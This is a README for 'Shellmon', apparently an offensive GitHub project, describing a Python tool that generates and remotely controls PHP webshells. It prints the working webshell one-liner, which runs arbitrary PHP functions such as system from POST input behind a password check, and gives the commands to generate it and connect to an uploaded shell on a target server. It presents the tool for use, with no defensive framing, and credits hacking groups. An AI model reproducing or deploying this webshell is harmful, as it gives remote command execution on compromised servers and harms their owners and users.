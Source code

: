 <div align="center">

![ShellMon](img/logo.png)
![](https://img.shields.io/badge/Version-1.0.0-red)
![](https://img.shields.io/badge/License-MIT-green)
![](https://img.shields.io/badge/Python-3.10.0-blue)

> An Simple PHP Webshell Manager

</div>

## Description
Shellmon is a tool used to create and control a webshell remotely, created using the Python3 programming language using the "Object Oriented" method. The resulting webshell has been coded very simply and has a size of no more than 80 bytes. 
It provides an interactive shell in your terminal that makes it easy for you to create or control a webshell.

## Instalation
The installation process of this tool is quite easy, it does not use an external python modules that makes your computer's storage space a bit filled.

Please download this repository or you can also clone the repository using git by typing the following command in your terminal: 
```bash
git clone https://github.com/22XploiterCrew-Team/Shellmon
```
after that move the pre-work directory in your terminal to the ***shellmon*** directory.

## Usage
Simple interactive shell commands make it easy to run this tool.

type `python shellmon.py` in the terminal screen to display the help command.
![help](img/help.jpg)

If you want to generate a new webshell, you just need to type this command in the terminal
```bash
python shellmon.py -p yourpassword --generate
```
webshell files will be automatically saved in your current pre-employment directory, filenames will be auto-generated with number format 0-9 and use .php extension.

Content webshell:
```php
<?=(isset($_GET[0])&&$_GET[0]=="yourpassword"?:die("0"))&&@$_POST[0]($_POST[1]);
```
actually the above code can still be made simpler like this
```php
<?=($_GET[0]=="yourpassword"?:die("0"))&&@$_POST[0]($_POST[1]);
```
but I'm worried that the server will send the status code ***500 Internal Server Error***, because this tool also checks the response code from the server and only receives the response code ***200 OK***.


Furthermore, if you want to connect your uploaded webshell to the target server, you just need to type this command on the terminal screen
```bash
python shellmon.py -u https://target.com -p yourpassword
```
display if successfully connected
![result](img/res2.jpg)
you can also customize PHP shell functions by using the `--func [function]` argument, by default the function used is ***system***.

#### Support
- 22XploiterCrew
- Banyumas Cyber Team
- Jombang BlackHat
